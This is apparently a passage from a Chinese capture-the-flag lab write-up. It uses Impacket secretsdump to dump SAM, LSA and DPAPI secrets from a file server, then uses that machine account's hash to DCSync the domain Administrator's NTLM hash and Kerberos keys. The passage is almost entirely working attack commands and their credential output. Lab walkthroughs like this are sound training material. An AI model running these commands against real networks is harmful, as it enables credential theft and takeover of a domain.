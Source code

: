 ```shell
➜ ~ proxychains secretsdump.py -k -no-pass Fileserver.xiaorang.lab -dc-ip 172.22.60.8
Impacket v0.12.0.dev1+20230803.144057.e2092339 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xef418f88c0327e5815e32083619efdf5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bd8e2e150f44ea79fff5034cad4539fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b40dda6fd91a2212d118d83e94b61b11:::
[*] Dumping cached domain logon information (domain/username:hash)
XIAORANG.LAB/Administrator:$DCC2$10240#Administrator#f9224930044d24598d509aeb1a015766: (2023-08-02 07:52:21)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
XIAORANG\Fileserver$:plain_password_hex:3000310078005b003b0049004e003500450067003e00300039003f0074006c00630024003500450023002800220076003c004b0057005e0063006b005100580024007300620053002e0038002c0060003e00420021007200230030003700470051007200640054004e0078006000510070003300310074006d006b004c002e002f0059003b003f0059002a005d002900640040005b0071007a0070005d004000730066006f003b0042002300210022007400670045006d0023002a002800330073002c00320063004400720032002f003d0078006a002700550066006e002f003a002a0077006f0078002e0066003300
XIAORANG\Fileserver$:aad3b435b51404eeaad3b435b51404ee:951d8a9265dfb652f42e5c8c497d70dc:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x15367c548c55ac098c599b20b71d1c86a2c1f610
dpapi_userkey:0x28a7796c724094930fc4a3c5a099d0b89dccd6d1
[*] NL$KM
 0000   8B 14 51 59 D7 67 45 80  9F 4A 54 4C 0D E1 D3 29   ..QY.gE..JTL...)
 0010   3E B6 CC 22 FF B7 C5 74  7F E4 B0 AD E7 FA 90 0D   >.."...t........
 0020   1B 77 20 D5 A6 67 31 E9  9E 38 DD 95 B0 60 32 C4   .w ..g1..8...`2.
 0030   BE 8E 72 4D 0D 90 01 7F  01 30 AC D7 F8 4C 2B 4A   ..rM.....0...L+J
NL$KM:8b145159d76745809f4a544c0de1d3293eb6cc22ffb7c5747fe4b0ade7fa900d1b7720d5a66731e99e38dd95b06032c4be8e724d0d90017f0130acd7f84c2b4a
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

利用 Fileserver 机器账户进行 DCSync

```shell
➜ ~ proxychains secretsdump.py xiaorang.lab/'Fileserver$':@172.22.60.8 -hashes ':951d8a9265dfb652f42e5c8c497d70dc' -just-dc-user Administrator
Impacket v0.12.0.dev1+20230803.144057.e2092339 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c3cfdc08527ec4ab6aa3e630e79d349b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:4502e83276d2275a8f22a0be848aee62471ba26d29e0a01e2e09ddda4ceea683
Administrator:aes128-cts-hmac-sha1-96:38496df9a109710192750f2fbdbe45b9
Administrator:des-cbc-md5:f72a9889a18cc408
[*] Cleaning up...
```

flag04

![image-20230818155541018](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181555074.png)

flag02

![image-20230818155644406](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181556457.png)